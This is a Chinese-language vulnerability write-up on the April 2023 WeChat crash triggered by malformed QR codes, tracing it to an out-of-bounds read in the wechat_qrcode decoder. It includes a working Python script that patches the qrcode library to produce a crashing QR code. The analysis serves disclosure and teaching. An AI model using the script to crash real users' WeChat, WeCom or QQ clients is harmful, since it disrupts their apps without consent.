## 一、事件背景

腾讯旗下的微信是一款社交通讯应用程序，由中国互联网巨头腾讯公司开发和运营。作为一款领先的社交应用，微信在全球范围内拥有大量的注册用户，且用户的活跃度极高。在微信中，用户可以通过扫描二维码来进行好友添加、进入公众号页面、加入群聊、进入小程序等。

2023年4月23日，用户在扫描或浏览某些畸形二维码时，会导致微信出现闪退等异常情况。

据了解，这种异常情况主要是由于畸形二维码造成的越界读取产生。

## 二、事件过程



2023年4月23日晚上，部分微信用户反馈点开二维码图片会造成闪退。



2023年4月24日凌晨三点，GZTime发出了制造畸形二维码的python代码。



2023年4月24日下午两点，Konano发现微信开源的二维码识别引擎中的问题代码。



至文章编写的2023年4月26日为止，iOS端微信尚未更新修复此bug。

## 三、技术分析

### 1、 二维码基础

这里会介绍二维码创建的部分步骤，以用来分析后续的畸形二维码。

### 1.1 数据分析

QR码将一串文本编码成二进制位（1和0）。QR标准有四种文本编码模式：数字、字母数字混合、字节和汉字。每种模式将文本转换为不同的二进制位字符串，但每种编码方法都使用不同的方法将数据编码为最短的二进制位字符串。

### 1.2 数据编码

### 1.2.1 纠错级别

二维码的四个纠错级别是：L、M、Q、H。

L表示最低纠错级别，能够修复约7%的数据码字错误；

M表示中等纠错级别，能够修复约15%的数据码字错误；

Q表示较高纠错级别，能够修复约25%的数据码字错误；

H表示最高纠错级别，能够修复约30%的数据码字错误。

### 1.2.2 版本

二维码的版本指的是二维码矩阵中每一行和每一列的模块数，例如版本1的二维码矩阵大小是21x21（包括两个空白区域），版本2的大小是25x25，以此类推。版本越高，可以存储的信息也就越多。每个版本都有一个版本信息指示符来标识它的版本。（最多四十个版本）



### 1.2.3 使用所选模式编码

• Numeric Mode Encoding

• Alphanumeric Mode Encoding

• Byte Mode Encoding

• Kanji Mode Encoding

### 1.2.4 添加模式指示器



### 1.2.5 添加字符计数指示器

后续字符有多少个，根据版本不同，这个指示器所占的位数不同。



### 1.2.6 确定QR码需要的位数



### 1.2.7 添加终止符

添加1~4个0（bit）使得达到所要求的位数；添加了终止符后如果bit数不是8的倍数则继续添加0使得为8的倍数；如果最终的bit串仍然太短，则添加填充字符11101100 00010001。

### 2、 二维码基础

这里会介绍二维码创建的部分步骤，以用来分析后续的畸形二维码。

### 2.1 代码

``` Python
import qrcode  
from qrcode.util import \*  
  
def hack\_put(self, num, len):  
 if num == 0:  
     num = 2 # faker length of hack\_data  
 for i in range(len):  
     self.put\_bit(((num >> (len - i - 1)) & 1) == 1)  
qrcode.util.BitBuffer.put = hack\_put  
qr = qrcode.QRCode(2, qrcode.constants.ERROR\_CORRECT\_Q, mask\_pattern=0)  
data = "tested by InsBug".encode("utf-8")  
data += b' ' \* (22-len(data)-3)  
\# 22为2-Q的Total Number of Data Codewords for this Version and EC Level，-3是由于模式和长度指示器共占了24位，正好为3Byte。  
user\_data=QRData(data, MODE\_8BIT\_BYTE)  
hack\_data=QRData(b'', MODE\_8BIT\_BYTE)  
qr.add\_data(user\_data)  
qr.add\_data(hack\_data)  
  
img = qr.make\_image()  
img.save(".png")
```

### 2.2 生成结果及扫描结果


该二维码通过上述代码生成。



QRazyBox的解析结果，发现hack\_data被解释成了一个Byte Mode指示器，并且长度为代码中设置的faker length，这时候如果再往后续读取数据便开始越界解析。

### 2.3 CRASH演示



大部分用户反馈的微信点开二维码图片闪退的问题，在企业微信41.03.6008版本中同样存在。

### 3、CRASH分析

### 3.1 源码分析

由于根源问题是wechat\_qrcode这个开源二维码识别引擎出现的问题。

``` C
 int nBytes = count;  
 BitSource& bits(\*bits\_);  
 // Don't crash trying to read more bits than we have available.  
 int available = bits.available();  
 // try to repair count data if count data is invalid  
 if (count \* 8 > available) {  
     count = (available + 7 / 8);  
 }  
  
 ArrayRef<char> bytes\_(count);  
 char\* readBytes = &(\*bytes\_)\[0\];
```

以上为导致出现问题的解析代码。

（代码文件链接 https://github.com/opencv/opencv\_contrib/blob/960b3f685f39c0602b8a0dd35973a82ee72b7e3c/modules/wechat\_qrcode/src/zxing/qrcode/decoder/decoded\_bit\_stream\_parser.cpp#L202-L203 ）

最终在填入一个有长度的空比特的时候，nByte不为0，available为0，执行到199行count被更新为0。

在执行到203行的时候，由于count为0，声明的是一个空数组，后续对其访问则是非法访问。其也对应了最后出错的EXCEPTION\_ACCESS\_VIOLATION。由于这一份引擎在腾讯系软件中广泛使用，所以除了微信，在企业微信、QQ中也同样会因为该二维码造成闪退。

### 3.2 逆向分析



在打开图片的时候，会出现KMEAS\_MS\_FACTOR和KMEANS\_COUNT\_FACTOR，查阅资源发现KMEANS是一个可应用于图像分割的算法。猜测其打开二维码的时候，二维码会被进行处理，随后识别数据读入内存中。



这里进行memcpy函数，其函数原型如下：

_/\*  
\*描述：此类函数是用于对字符串进行复制（拷贝），属于内存拷贝！  
\*  
\*参数：  
\*   \[out\] dst：拷贝完成之后的字符串  
\*   \[in\] src ：需要拷贝的字符串  
\*   \[in\] n   ：需要拷贝的字节数  
\*  
\*返回值：指向 dst 这个字符串的指针  
\*注意：如果需要拷贝的字节数n 大于 dst 的内存大小，程序会崩溃_  
_\*/_  
void \*memcpy(void \*dst, void \*src, unsigned int n);

所以栈顶的由上往下的参数分别是：

dst：0x300422BB

src：0x00000000

n：2

然后会发现，在EIP所指处指令为mov al,byte ptr ds:\[esi\]，操作是从esi指向的内存单元读取一个字节，放入al寄存器中，而此时esi为0x00000000，所以就是从0x00000000处读取1个字节数据到之前已写入内存的“tested by InsBug   ”后。这里便会导致非法访问，产生crash。



## 四、相关反应

至文章编写的2023年4月26日为止，微信的官方微博与官方网站尚未对此bug进行回应。

## 五、事件启示

通过此次闪退事件，我们能看出外部的输入是不可信的，正常生成的输入在程序处理时可能不会产生问题，能够对程序的正常运行产生影响的是精心构造的恶意输入或畸形输入。要避免这种情况的发生，除了建立完善的测试体系之外，代码提交前的代码审计工作也十分重要。